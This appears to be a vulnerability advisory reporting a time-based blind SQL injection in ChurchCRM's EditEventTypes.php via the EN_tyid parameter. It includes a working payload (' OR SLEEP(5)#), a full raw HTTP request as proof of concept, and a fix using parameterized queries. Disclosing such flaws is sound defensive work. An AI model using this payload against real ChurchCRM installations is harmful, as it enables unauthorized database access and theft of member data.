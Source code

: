# Description
The endpoint **/EditEventTypes.php** is vulnerable to Blind SQL Injection (Time-based) via the **EN_tyid** POST parameter.

This endpoint can be triggered through the following menu: Events - List Event Types - Edit Event Types - Save Name. The EN_tyid Parameter is taken directly from the user input and passed into the SQL query without any sanitization or input escaping. This allows the attacker to inject malicious Event payloads to execute the malicious SQL query.

# Proof of Concept

Triggering response delays with MySQL sleep function through **Time-based SQL Injection**.

**Affected Parameter**: EN_tyid

**Payload**: ' OR SLEEP(5)#

```
POST /churchcrm/EditEventTypes.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: http://localhost:8888
Connection: close
Referer: http://localhost:8888/churchcrm/EditEventTypes.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=10amb7tfpmsvp76h7kcqtggqf3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

EN_tyid=1'+OR+SLEEP(5)%23&EN_ctid=&newEvtName=NewEvent&Action=NAME&newEvtStartTime=10%3A30%3A00&newCountName=

```

# Root Cause
User input on the Event parameter is not sanitized and used directly in the query through string concatenation.
https://github.com/ChurchCRM/CRM/blob/master/src/EditEventTypes.php#L33,L71


# Recommendation
Avoid direct string concatenation into the sql query. It's recommended to use input sanitization as well as implementing parameterized query.
